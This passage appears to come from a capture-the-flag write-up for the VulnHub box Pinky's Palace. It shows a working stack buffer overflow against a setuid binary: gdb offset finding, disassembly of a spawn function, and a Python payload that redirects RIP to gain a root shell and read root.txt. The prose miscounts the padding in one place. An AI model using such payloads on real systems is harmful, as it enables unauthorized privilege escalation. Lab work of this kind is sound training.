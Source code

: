 Then, I could find the offset in 72 bytes and overwrite the rip instruction with 6 B's (42 in hexadecimal).

```console
(gdb) run $(python -c 'print("A"*72 + "B"*6)')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/pinky/adminhelper $(python -c 'print("A"*72 + "B"*6)')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x0000424242424242 in ?? ()
```

As we can verify, the rip instruction was controlled.

```console
(gdb) info registers $rip
rip            0x424242424242   0x424242424242
```

Is time to disassemble the spawn function to locate its address.

```console
(gdb) disas spawn
Dump of assembler code for function spawn:
   0x00005555555547d0 <+0>:     push   %rbp
   0x00005555555547d1 <+1>:     mov    %rsp,%rbp
   0x00005555555547d4 <+4>:     sub    $0x10,%rsp
   0x00005555555547d8 <+8>:     movl   $0x0,-0x4(%rbp)
   0x00005555555547df <+15>:    movl   $0x0,-0x8(%rbp)
   0x00005555555547e6 <+22>:    mov    -0x4(%rbp),%eax
   0x00005555555547e9 <+25>:    mov    %eax,%edi
   0x00005555555547eb <+27>:    callq  0x555555554680 <seteuid@plt>
   0x00005555555547f0 <+32>:    mov    -0x8(%rbp),%eax
   0x00005555555547f3 <+35>:    mov    %eax,%edi
   0x00005555555547f5 <+37>:    callq  0x555555554670 <setegid@plt>
   0x00005555555547fa <+42>:    mov    $0x0,%edx
   0x00005555555547ff <+47>:    mov    $0x0,%esi
   0x0000555555554804 <+52>:    lea    0xd9(%rip),%rdi        # 0x5555555548e4
   0x000055555555480b <+59>:    callq  0x555555554660 <execve@plt>
   0x0000555555554810 <+64>:    nop
   0x0000555555554811 <+65>:    leaveq 
   0x0000555555554812 <+66>:    retq   
End of assembler dump.
```

The address to add in the rip register is **0x00005555555547d0**, so I built the final instruction, assigning first with 71 A's, and the jump address to the spawn function in little endian.

```console
pinky@pinkys-palace:~$ /home/pinky/adminhelper $(python -c 'print("A"*72 + "\xd0\x47\x55\x55\x55\x55")')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGUUUU
# whoami
root
# python3 -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'
root@pinkys-palace:/home/pinky# cd /root
root@pinkys-palace:/root# ls
root.txt
root@pinkys-palace:/root# cat root.txt 
===========[!!!CONGRATS!!!]===========

[+] You r00ted Pinky's Palace Intermediate!
[+] I hope you enjoyed this box!
[+] Cheers to VulnHub!
[+] Twitter: @Pink_P4nther

```